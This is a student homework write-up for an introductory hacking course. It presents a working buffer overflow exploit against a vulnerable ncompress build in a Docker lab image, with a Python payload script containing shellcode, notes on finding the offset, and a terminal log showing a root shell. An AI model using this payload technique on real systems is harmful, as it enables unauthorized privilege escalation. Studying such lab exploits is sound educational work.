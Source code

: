 # Homework #0

Topics: Github & Actions, Docker, Python, Bash, Buffer Overflows

## Write up of our first exploit (25 Points)
My exploit is the following:
--------------------------------------------------------------------------------
import sys
import struct

payload = b""
payload += b"\x90" * 1000
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload += b"\x90" * 16 
payload += struct.pack("<I", 0xffffc9dc+ 1000) *30

sys.stdout.buffer.write(payload)
--------------------------------------------------------------------------------

I concluded from the source code (the input path is 1024 bytes long) that the buffer is 1024 bytes long. From gdb and testing i concluded that the return address is overwritten after 1068 bytes (buffer plus other stuff). So I added nearly this many bytes as a nop sled, then added the shellcode and some more nop sleds (the code didn't seem to work otherwise). Then I added the address of the return address many times to compensate if the memory addresses "move" a bit. That's the same reason I have added the return address earlier than the 1068 bytes needed offset that I found.
The return address was found using 'sudo dmesg' to inspect where the stack pointer was when the segfault occured. I then found (with trial and error) that 1000 bytes where sufficient to get me to the nop sled, leading to execution of my shellcode. I have tested this and it works in multiple instances.


######################################################################################
A successful invocation:
######################################################################################

~/Documents/hack_intro/erg1/hw0-KStamoulis$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@0d9b8c1aa83d:~$ echo hello | ncompress
��hʰa�Fubuntu@0d9b8c1aa83d:~$ python3 /exploit.py > /tmp/payload
ubuntu@0d9b8c1aa83d:~$ whoami
ubuntu
ubuntu@0d9b8c1aa83d:~$ ncompress `cat /tmp/payload`
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                      1�@̀����������������������������������������������������������������������������������������������������������������������������������������: File name too long
# whoami
root
# exit
ubuntu@0d9b8c1aa83d:~$ 

######################################################################################